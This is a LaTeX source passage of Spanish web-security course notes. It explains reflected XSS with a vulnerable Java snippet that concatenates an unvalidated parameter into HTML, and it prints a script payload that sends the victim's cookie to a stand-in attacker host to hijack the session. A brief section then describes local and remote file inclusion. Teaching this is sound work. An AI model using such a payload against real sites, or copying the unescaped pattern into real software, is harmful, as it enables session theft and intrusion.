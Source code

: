 \documentclass[11pt,a4paper]{report}
\begin{document}
\begin{ejemplo}{Ejemplo de XSS}
El servidor construye la página HTML de salida con una entrada sin validar:
\begin{verbatim}
(String) page += "<input name='creditcard' type='TEXT' value='"
               + request.getParameter("CC") + "'>";
\end{verbatim}
El atacante cambia el parámetro \texttt{CC} en el navegador a:
\begin{verbatim}
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>
\end{verbatim}
El \verb|'>| cierra el atributo y la etiqueta \texttt{input}, y lo que sigue se interpreta como un script. Así, el ID de sesión de la víctima se envía a la web del atacante, que puede \textbf{secuestrar su sesión} actual. (Contra esto protege el \emph{flag} \texttt{httpOnly} de las \emph{cookies}.)
\end{ejemplo}
 
\subsection{Inclusión de ficheros (\emph{file inclusions})}
 
\begin{itemize}
  \item Ocurren cuando un atacante consigue \textbf{incluir un fichero} en el servidor web, a menudo a través de un script.
  \item De nuevo, es una vulnerabilidad causada por \textbf{entrada del usuario sin la validación adecuada}.
  \item Tipos básicos:
    \begin{itemize}
      \item \textbf{LFI} (\emph{Local File Inclusion}): incluye un fichero que ya está en el servidor.
      \item \textbf{RFI} (\emph{Remote File Inclusion}): incluye un fichero alojado en otra máquina, normalmente controlada por el atacante.
    \end{itemize}
\end{itemize}
 
\chapter*{Glosario de siglas del tema}
 
\end{document}
